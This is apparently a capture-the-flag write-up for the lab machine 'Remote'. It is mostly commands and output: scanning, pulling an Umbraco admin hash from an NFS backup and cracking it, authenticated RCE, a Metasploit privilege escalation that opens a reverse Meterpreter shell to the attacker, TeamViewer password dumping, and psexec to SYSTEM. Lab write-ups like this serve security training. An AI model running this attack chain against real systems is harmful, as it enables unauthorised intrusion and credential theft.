



# Remote

## SYN Scan
```
nmap -sS -sV -O -p- -v -T4 -Pn -oA nmap/full_syn 10.10.10.180

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
111/tcp   open  rpcbind       2-4 (RPC #100000)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC

Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Anonymous FTP
```
$ ftp 10.10.10.180            
Connected to 10.10.10.180.
220 Microsoft FTP Service
Name (10.10.10.180:cpt): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
```

## Web Application (Umbraco)


http://10.10.10.180/umbraco


## NFS Share
```
$ showmount -e 10.10.10.180  
Export list for 10.10.10.180:
/site_backups (everyone)
```

## Umbraco Version Detection
Found the version in `Web.config`.
```xml
...
<add key="umbracoConfigurationStatus" value="7.12.4" />
...
```

## Umbraco Admin
Found admin's username in `UmbracoTraceLog.intranet.txt`.

```
...
 2020-02-20 02:23:15,368 [P3592/D3/T54] INFO  Umbraco.Core.Security.BackOfficeSignInManager - Event Id: 0, state: Login attempt succeeded for username admin@htb.local from IP address 192.168.195.137
...
```

Found admin's hash in `App_Data/Umbraco.sdf`.

```
$ strings Umbraco.sdf | grep -i admin
...         
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
...
```

### Cracking Admin's SHA1
https://hashes.com/en/tools/hash_identifier

```
b8be16afba8c314ad33d812f22a04991b90e2aaa - baconandcheese - Possible algorithms: SHA1
```

## Umbraco Admin Login
Logged in as administrator by using the credentails that were found.

http://10.10.10.180/umbraco

```
admin@local.htb:baconandcheese
```



## RCE via Vulnerable Umbraco Version
`Umbraco CMS 7.12.4` is vulnerable to remote code execution.

https://www.exploit-db.com/exploits/49488

```
$ python2 exploit.py -u admin@htb.local -p baconandcheese --host http://10.10.10.180 -c whoami
iis apppool\defaultapppool
```

## The User Flag
```
meterpreter > search -f user.txt
Found 1 result...
    c:\Users\Public\user.txt (34 bytes)
```

```
meterpreter > cat c:/users/public/user.txt
26b82f1266f9f32012cd6da07e8fff1a
```

## Local Exploit Suggester
```
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.180 - Collecting local exploits for x64/windows...
[*] 10.10.10.180 - 26 exploit checks are being tried...
[+] 10.10.10.180 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 10.10.10.180 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The target appears to be vulnerable. Vulnerable Windows 10 v1809 build detected!
[+] 10.10.10.180 - exploit/windows/local/cve_2020_1048_printerdemon: The target appears to be vulnerable.
[+] 10.10.10.180 - exploit/windows/local/cve_2020_1337_printerdemon: The target appears to be vulnerable.
[+] 10.10.10.180 - exploit/windows/local/cve_2020_17136: The target appears to be vulnerable. A vulnerable Windows 10 v1809 build was detected!
[+] 10.10.10.180 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[*] Post module execution completed
```

## Privilege Escalation (NT AUTHORITY\NETWORK SERVICE)
```
msf6 exploit(windows/local/cve_2020_17136) > exploit

[*] Started reverse TCP handler on 10.10.14.11:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. A vulnerable Windows 10 v1809 build was detected!
[*] Dropping payload dll at C:\Windows\Temp\rKpDvlklfmMnZbnk.dll and registering it for cleanup...
[*] Running module against REMOTE
[*] Launching notepad.exe to host CLR...
[+] Process 1616 launched.
[*] Reflectively injecting the Host DLL into 1616..
[*] Injecting Host into 1616...
[*] Host injected. Copy assembly into 1616...
[*] Assembly copied.
[*] Executing...
[*] Start reading output
[+] Sync connection key: 2472642022912
[+] Done
[*] End output.
[+] Execution finished.
[*] Sending stage (200262 bytes) to 10.10.10.180
[*] Meterpreter session 5 opened (10.10.14.11:4444 -> 10.10.10.180:49705) at 2021-04-18 03:25:14 +0300

meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
```

## Privilege Escalation via Vulnerable TeamViewer Version
https://nvd.nist.gov/vuln/detail/CVE-2019-18988

```
msf6 post(windows/gather/credentials/teamviewer_passwords) > run

[*] Finding TeamViewer Passwords on REMOTE
[+] Found Unattended Password: !R3m0te!
[+] Passwords stored in: /home/cpt/.msf4/loot/20210418042717_default_10.10.10.180_host.teamviewer__675080.txt
[*] <---------------- | Using Window Technique | ---------------->
[*] TeamViewer's language setting options are ''
[*] TeamViewer's version is ''
[-] Unable to find TeamViewer's process
[*] Post module execution completed
```

```
$ psexec.py 'administrator:!R3m0te!'@10.10.10.180                                  
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.180.....
[*] Found writable share ADMIN$
[*] Uploading file PVDwapcd.exe
[*] Opening SVCManager on 10.10.10.180.....
[*] Creating service zlWj on 10.10.10.180.....
[*] Starting service zlWj.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

## The Root Flag
```
dir C:\users\administrator\desktop\


    Directory: C:\users\administrator\desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-ar---        4/17/2021   7:35 PM             34 root.txt
```

```
cat C:\users\administrator\desktop\root.txt
2cee8e0c0e307e6d1cf286fd56ae9b5d
```